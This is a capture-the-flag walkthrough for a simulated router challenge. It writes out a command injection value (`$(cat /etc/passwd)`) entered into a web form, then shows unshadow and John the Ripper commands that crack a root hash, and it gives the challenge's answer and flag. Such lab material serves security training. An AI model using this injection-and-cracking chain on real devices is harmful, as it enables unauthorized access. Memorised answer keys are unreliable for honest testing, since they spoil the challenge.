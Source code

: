 # 🎩 Hash’em - L13 C08

Agent 707, we've managed to get physical access to a router the gang are using on their ship. We want you to use that access to get the username and password for SSH.

**Tip:** RCE? You'll crack it! Then, send in format: username / password.

<details><summary>

## Need a hint?</summary>

> 💡 Hint: Some previous command injection bypasses still work and information on "shadowing" can be found [here](https://erev0s.com/blog/cracking-etcshadow-john/)

</details>

<details><summary>

## Step by Step</summary>

- Navigate to "Backup Settings" on the left side of the webpage
- Type and enter `$(cat /etc/passwd)` in the username section
- A list of shadowed passwords should show up, copy the first one from root
- Create two files with the following names and content
  - Shadow, with the line of the root user (`root:$1$gaiiqAXv$UykKlBl6vUsgBc.rUiFk80:0:0:root:/root:/bin/bash`)
  - Passwd - with the default root entry for /etc/passwd (`root:x:0:0:root:/root:/bin/bash`)
- Run `unshadow Passwd Shadow > Unshadow`
- Then run `john --wordlist=/usr/share/wordlist/rockyou.txt Unshadow`

![cracking the password](/assets/hashem1.png)

- Submit the flag by selecting the iPhone from the left and typing `root / topcat`

`flag: 1KNfAV0VTlgMEqWhR7ZG`

</details>
